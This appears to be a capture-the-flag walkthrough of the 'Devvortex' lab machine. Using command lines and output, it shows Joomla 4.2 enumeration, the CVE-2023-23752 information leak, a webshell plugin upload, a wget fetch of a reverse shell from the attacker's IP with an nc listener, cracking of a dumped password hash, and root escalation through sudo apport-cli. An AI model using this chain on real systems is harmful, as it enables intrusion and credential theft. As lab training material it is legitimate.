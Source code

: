 # Seasonal Machine devvortex easy machine

Firstly Copy the ip machine and fill it on /etc/hosts devvortex.htb

Secondly enumerate subdo with gobuster or fuzz for nmap i scanned but only 22 and 80 port opened

`gobuster vhost -u http://devvortex.htb/ -w /usr/share/wordlists/Seclists/Discovery/DNS/subdomains-top1million-5000.txt -apppend-domain`

and you will got this subdomain dev.devvortex.htb and back again to /etc/hosts fill it
after that

Enumerate the files

gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://dev.devvortex.htb/

/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
/components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
/home                 (Status: 200) [Size: 23221]
/images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
/includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
/index.php            (Status: 200) [Size: 23221]
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]

this mean is this website use joomla because the folder name is administrator and second is /language

so how to exploit it to revshell?we enum again use gobuster again but add .txt like this
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://dev.devvortex.htb/ -x .txt

/README.txt           (Status: 200) [Size: 4942]

got it
so copy the files go to subdo 
Joomla! CMS™

1- Overview
	* This is a Joomla! 4.x installation/upgrade package.
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 4.2 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_4.2_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/4.2-dev
    Go to google search Joomla 4.2 Exploit
You will find this website https://github.com/Acceis/exploit-CVE-2023-23752
git clone https://github.com/Acceis/exploit-CVE-2023-23752.git

cd Explot-xxxxx
gem install httpx docopt paint
bundle install

run 'ruby exploit.rb http://dev.devvortex.htb'

```
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
                      
```

DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
go login http://dev.devvortex.htb/administrator copy db user and db paswd then paste it to form login

For Upload Shell Search on google joomla upload shell 
u will found this exploit 
https://github.com/p0dalirius/Joomla-webshell-plugin
Download as zip 
Go to "System --> Extensions" page, at http://127.0.0.1:10080/administrator/index.php?option=com_installer&view=install, and click on "Upload Package File":

upload .zip you downloaded it

Response:"Installation of the module was successful."


#Access Webshell 
http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php

i tried revshell use bash not work so i tried upload shell pentest monkey is work!

Open new terminal go to folder webshell and run python -m http.server 80

http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=wget -O /var/www/dev.devvortex.htb/c.php http://10.10.14.27/rev.php

```Output
"--2023-11-26 04:55:55--  http://10.10.14.27/rev.php\nConnecting to 10.10.14.27:80... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 2585 (2.5K) [application/octet-stream]\nSaving to: '/var/www/dev.devvortex.htb/c.php'\n\n     0K ..                                                    100% 3.39M=0.001s\n\n2023-11-26 04:55:55 (3.39 MB/s) - '/var/www/dev.devvortex.htb/c.php' saved [2585/2585]\n\n"
```
Its Work Uploaded!!

http://dev.devvortex.htb/c.php
nc -lvnp 1337

nc -lvnp 1337  
listening on [any] 1337 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.242] 33522
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 04:57:36 up  1:30,  2 users,  load average: 0.00, 0.03, 0.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
logan    pts/0    10.10.16.2       03:28    1:14m  9.01s  0.03s sshd: logan [priv]  
logan    pts/3    10.10.16.11      03:53   31:03  18.99s  0.03s sshd: logan [priv]  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 

for login ssh you need login mysql u can use adminer or mysql command like this

do not forgot spawn tty shell python , because if you not spawn tty its now work 

mysql -u lewis -p joomla 

Enter password: 
P4ntherg0t1n5r3c0n##
mysql> use joomla;
show tables;
sd4fg_users

select * from sd4fg_users;
------------------------------------------------------------------------------------------
Username    Password
------------------------------------------------------------------------------------------
logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 

copy the password and hash it use john the ripper

ssh logan@dev.devvortex.htb 

Hashes password:tequieromucho

logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli



-c PATH, --crash-file=PATH
                        Report the crash from given .apport or .crash file
                        instead of the pending ones in /var/crash. (Implied if
                        file is given as only argument.)

sudo /usr/bin/apport-cli -c /bin/chfn less

for path anything you can use but do not forget add less 

Please choose (S/V/K/I/C):v

== ProcCpuinfoMinimal =================================
processor       : 1
vendor_id       : AuthenticAMD
cpu family      : 23
model           : 49
model name      : AMD EPYC 7302P 16-Core Processor
stepping        : 0
cpu MHz         : 2994.375
cache size      : 512 KB
physical id     : 2
siblings        : 1
core id         : 0
cpu cores       : 1
apicid          : 2
initial apicid  : 2
fpu             : yes
fpu_exception   : yes
cpuid level     : 16
!sh

# id
uid=0(root) gid=0(root) groups=0(root)

success :D

Happy Hacking 
